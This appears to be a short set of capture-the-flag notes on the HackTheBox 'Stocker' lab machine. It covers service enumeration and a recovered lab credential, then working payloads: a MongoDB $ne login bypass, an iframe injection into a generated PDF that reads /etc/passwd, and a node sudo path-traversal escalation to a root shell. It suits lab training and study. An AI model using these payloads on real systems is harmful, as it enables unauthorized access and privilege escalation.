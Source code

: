 | HOST                       | PORT | PROTO | SERVICE | VERSION                 |
| -------------------------- | ---- | ----- | ------- | ----------------------- |
| 10.10.11.196 (stocker.htb) | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.5 |
| 10.10.11.196 (stocker.htb) | 80   | tcp   | nginx   | 1.18.0                  |


## HEADERS
---
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 24 Jun 2023 18:54:56 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://stocker.htb

---

## DIRECTORIES
---
/login (dev.stocker.htb)

---

## USERS
---
angoose : IHeardPassphrasesArePrettySecure

---

## NOTES
---
* static website
* Found: dev.stocker.htb Status: 302 [Size: 28] /login with gobuster vhost and the --append-domain flag
* connect.sid (often note.js)
* change object to JSON, node will most likely accept JSON

* can use the MongoDB $ne operator as a "not equal to" equivalent in SQL to inject and bypass the login portal
```json
{"username":{
"$ne": "wither"
},
"password":{
"$ne": "wither"
}
}
```

* html iframe injection in the purchase request allows for rfi
```json
{"basket":[{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper<iframe src='file:///etc/passwd' height='1000' width='1000'","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

/api/po/id for vulnerable pdf

`angoose` has /bin/bash

site uses nginx, default configuration at ``/etc/nginx/sites-enabled/default`

mongodb config in /var/www/dev/index.js and contains a password `IHeardPassphrasesArePrettySecure`

`(ALL) /usr/bin/node /usr/local/scripts/*.js` sudo -l

gtfobin
```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

final exploit `sudo /usr/bin/node /usr/local/scripts/../../../tmp/exploit.js`


---
